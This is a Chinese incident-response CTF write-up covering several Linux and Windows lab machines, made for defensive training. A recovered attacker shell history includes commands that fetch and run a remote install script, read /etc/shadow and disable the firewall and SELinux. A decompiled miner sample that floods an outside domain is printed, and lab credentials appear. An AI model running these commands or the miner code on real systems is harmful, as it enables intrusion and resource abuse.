

### Linux1应急响应

#### 查看攻击者IP


- 基本确定ip为 `192.168.75.129`

#### 查看最后一次登录时间


- 似乎没什么用

#### 查看历史执行的命令


- 拿到第一个flag

#### 执行第一个命令看看


- 获取第二个flag

#### 查看有bin/bash的用户


- 好像也没有什么可用的

#### 查看计划任务


- 发现没有

#### 查看数据库日志


- 这里其实难度挺大的,需要挨着使用命令在(日志,配置文件)模糊匹配flag

```bash
grep -i 'flag{' /var/lib/redis
grep -i 'flag{' /etc/redis.conf
grep -i 'flag{' .....
```


#### 完成


****

### Linux2应急响应

#### 查看攻击者ip



- ip为`192.168.20.1`

#### 查看最后一次登录时间


#### 查看执行的历史命令

```bash
systemctl disable firewalld
systemctl disable --now firewalld
setenforce 0
vim
vi /etc/sysconfig/selinux 
poweroff
ip a
cd /var/
ls
cd ww
cd /home/
ls
mysql
yum install -y wget && wget -O install.sh https://download.bt.cn/install/install_6.0.sh && sh install.sh ed8484bec
BT
bt
ls
cd /www/
cd wwwroot/
ls
cd 127.0.0.1/
ls
cd ..
ls
cd ..
ls
cd wwwlogs/
ls
cat 127.0.0.1.log  -->flag1
cd nodejs/
ls
cd ..
ls
cd tcp-error.log 
cat tcp-error.log 
cat nginx_error.log 
cat access.log 
ls
cat 127.0.0.1.log 
cd /www/
ls
cd wwwlogs/
ls
cat 127.0.0.1.log 
bt
ls
cd /www/wwwroot/
ls
cd 127.0.0.1/
ls
rm -rf flag1 1
ls
rm -rf version2.php 
ls
hardlink 
hwclock 
ls
docker ps
rm -rf pe9.sql 
ls
cd vendor/
ls
cd ..
ls
cd ..
sl
ls
ls -a
cd 127.0.0.1/
ls
ls -a
vim .api
ls
ls -a
mkdir .api
ls
ls -a
cd .api/
l
ls
cd ..
ls
cd ap
cd api/
ls
cp * ../.api/
ls
cd ..
ls
cd .api/
ls
vim mpnotify.php 
yum install vim
ls
vim  alinotify.php 
cat /etc/shadow
who
w
history
useradd flag3{5LourqoFt5d2zyOVUoVPJbOmeVmoKgcy6OZ}
env
$flag3 = [root@web-server .api]# useradd flag3{5LourqoFt5d2zyOVUoVPJbOmeVmoKgcy6OZ}
useradd: invalid user name 'flag3{5LourqoFt5d2zyOVUoVPJbOmeVmoKgcy6OZ}'
$flag3 = flag{5LourqoFt5d2zyOVUoVPJbOmeVmoKgcy6OZ}
vim /etc/profile
source /etc/p
source /etc/profile
env
history 
q
e
eexir
exit
history 
ls
chmod +X go_build_untitled.exe 
l
chmod +x go_build_untitled.exe 
ls
./go_build_untitled.exe 
ls
mv go_build_untitled.exe wp
ls
./wp 
passwd root
clear 
./wp 
clear 
pwd
./wp 
```

#### 根据攻击者修改的密码

- 翻阅php获取账号和密码

- 数据库账号:`kaoshi`,密码:`5Sx8mK5ieyLPb84m`

- 登录phpmyadmin

  

- 尝试解密


#### 登录后台查找shell


- ```
  提交攻击者IP？
  192.168.20.1
  回答正确！
  提交攻击者修改的管理员密码(明文)
  Network@2020
  回答正确！
  提交第一次Webshell的连接URL（http://xxx.xxx.xxx.xx/abcdefg?abcdefg只需要提交abcdefg?abcdefg）
  index.php?user-app-register
  回答正确！
  提交Webshell连接密码
  Network2020
  回答正确！
  提交数据包的flag1
  ```


#### flag1

- 追踪tcp流
- `flag1{Network@_2020_Hack}`


#### shell文件


#### flag2

- `flag{bL5Frin6JVwVw7tJBdqXlHCMVpAenXI9In9}`


#### flag3

`flag{5LourqoFt5d2zyOVUoVPJbOmeVmoKgcy6OZ}`


#### 完成


****

### Windows应急响应1

#### 查找攻击者上传的webshell


- 访问目录查看连接密码


- 攻击者ip地址:`192.168.126.1`

#### 隐藏的后面用户


#### 找到挖矿程序


- 进行反编译,查看

```py
# uncompyle6 version 3.9.2
# Python bytecode version base 3.8.0 (3413)
# Decompiled from: Python 3.8.10 (default, Sep 11 2024, 16:02:53) 
# [GCC 9.4.0]
# Embedded file name: Kuang.py
import multiprocessing, requests

def cpu_intensive_task():
    while True:
        try:
            requests.get("http://wakuang.zhigongshanfang.top", timeout=10)
        except:
            pass


if __name__ == "__main__":
    cpu_count = multiprocessing.cpu_count()
    processes = [multiprocessing.Process(target=cpu_intensive_task) for _ in range(cpu_count)]
    for process in processes:
        process.start()
    else:
        for process in processes:
            process.join()

# okay decompiling /tmp/temp_11604878450251652175/Kuang.pyc
```

- 得到矿池域名ZZ:`akuang.zhigongshanfang.top`

#### 完成


****

### Windows应急响应2

#### 获取攻击攻击者的ip


- ip1:`192.168.126.129`
- ip2:`192.168.126.135`

#### 获取攻击者上传的webshell


- webshell:`system.php`

#### 获取攻击者qq号


- QQ号为文件名

#### 获取攻击者伪服务器地址


- 对应伪服务器和端口号

#### 结束


****

### Windows应急响应3

#### 获取攻击者ip


- ip1:`192.168.75.130`


#### 隐藏用户名就不用说了,登录我就看到了

- 用户名:`hack6618$`
- 

#### 找flag

- flag1
- 

- flag2

  

- flag3

